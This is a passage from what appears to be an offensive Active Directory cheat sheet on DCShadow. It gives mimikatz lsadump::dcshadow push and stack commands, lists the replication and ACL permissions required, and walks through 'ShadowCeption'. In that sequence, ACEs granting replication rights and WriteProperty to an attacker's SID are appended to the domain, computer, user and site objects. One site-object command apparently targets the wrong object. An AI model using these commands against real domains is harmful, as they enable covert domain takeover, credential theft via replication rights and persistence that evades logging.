 ### Second window:
```
lsadump::dcshadow /push
```

## Minimalist DCShadow

### Required Permissions:
- Domain Object:
    - DS-Install-Replica (Add/Remove Replica in Domain)
    - DS-Replication-Manage-Topology (Manage Replication Topology)
    - DS-Replication-Synchronize (Replication Synchronization)
- Sites Object
    - CreateChild
    - DeleteChild
- Object of the computer registered as a DC:
    - WriteProperty (Not Write)
- Target Object:
    - WriteProperty (Not Write)

Reference Set-DCShadowPermissions by Nishang

## ShadowCeption
- Running DCShadow from within DCShadow

Getting Base ACE to the Domain Object:

```
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=thing,DC=local")).psbase.ObjectSecurity.sddl
```

Append ACEs to the Domain Object:

```
lsadump::dcshadow /stack /object:DC=thing,DC=local /attribute:ntSecurityDescriptor /value:\\$OriginalACL(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;\\$UserSID)(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;\\$UserSID)(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;\\$UserSID)
```

Append to the attacker computer object:

```
lsadump::dcshadow /stack /object:CN=\\$ComputerName,CN=Computers,DC=thing,DC=local /attribute:ntSecurityDescriptor /value:\\$OriginalACL(A;;WP;;;\\$UserSID)
```

Append to the User object:

```
lsadump::dcshadow /stack /object:\\$Username /attribute:ntSecurityDescriptor /value:\\$OriginalACL(A;;WP;;;\\$UserSID)
```

Append to the Site object:

```
lsadump::dcshadow /stack /object:\\$Username /attribute:ntSecurityDescriptor /value:\\$OriginalACL(A;CI;CCDC;;;\\$UserSID)
```
